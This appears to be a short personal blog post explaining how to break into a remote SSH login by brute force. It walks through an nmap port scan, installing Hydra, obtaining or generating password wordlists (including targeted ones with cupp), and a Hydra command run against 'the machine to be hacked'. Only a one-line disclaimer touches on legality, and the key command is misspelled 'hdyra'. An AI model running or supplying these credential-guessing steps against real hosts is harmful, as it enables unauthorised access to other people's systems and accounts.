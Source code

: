 ```yaml
---
layout: post
tittle: How To Hack SSH Login Remotely
categories: hacking
---
```


- My OS Info: Ubuntu18.04 LTS Server

## Hacking Software
[Hydra](https://github.com/vanhauser-thc/thc-hydra)

Hydra is a open source brute and forcing  password hacking tool.

## Step 1 Scan the Listening Ports
Use `nmap` command to scan the ports that your machine to be hacked is listening to.

`nmap YOUR_HACKING_Machine_IP_ADDRESS`

which will show like this

```
Host is up (0.0028s latency).
Not shown: 989 closed ports
PORT      STATE    SERVICE
22/tcp    filtered ssh
80/tcp    open     http
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
548/tcp   open     afp
3306/tcp  open     mysql
3689/tcp  open     rendezvous
8181/tcp  open     intermapper
9000/tcp  open     cslistener
49154/tcp open     unknown

```

## Step 2 Install Hacking Software
`sudo apt install hydra`

## Step 3 Prepare user file and password file
- user.txt -> A dictionary which contains all the username to try
- passwd.txt -> A dictionary which contains all the password to try

You may want to download password dictionary from following site:

[https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

Or custom a wordlist on your own:

[https://null-byte.wonderhowto.com/how-to/create-custom-wordlists-for-password-cracking-using-mentalist-0183992/](https://null-byte.wonderhowto.com/how-to/create-custom-wordlists-for-password-cracking-using-mentalist-0183992/)

If the dictionary file is too large, you may split it using command `split` to divide the large file to small ones.

## Step 4 Run Hydra to Hack
`hdyra -L user.txt -P passwd.txt ssh://YOUR_HACKING_Machine_IP_ADDRESS -t 4`

`-t 4` means hydra starts 4 thread to hack the password.

## Attention:
- Please do not use in military or secret service organizations, or for illegal purposes;

- If you don't know useful information about the machine to be hacked, it may takes years to hack out the password, which depends on your computing power and dictionary size. It is practical to use the information you know about the machine to be hacked to generate custom wordlist,  you may using tool like [cupp](https://github.com/Mebus/cupp).

## References
[https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)

[https://linoxide.com/linux-how-to/split-large-text-file-smaller-files-linux/](https://linoxide.com/linux-how-to/split-large-text-file-smaller-files-linux/)
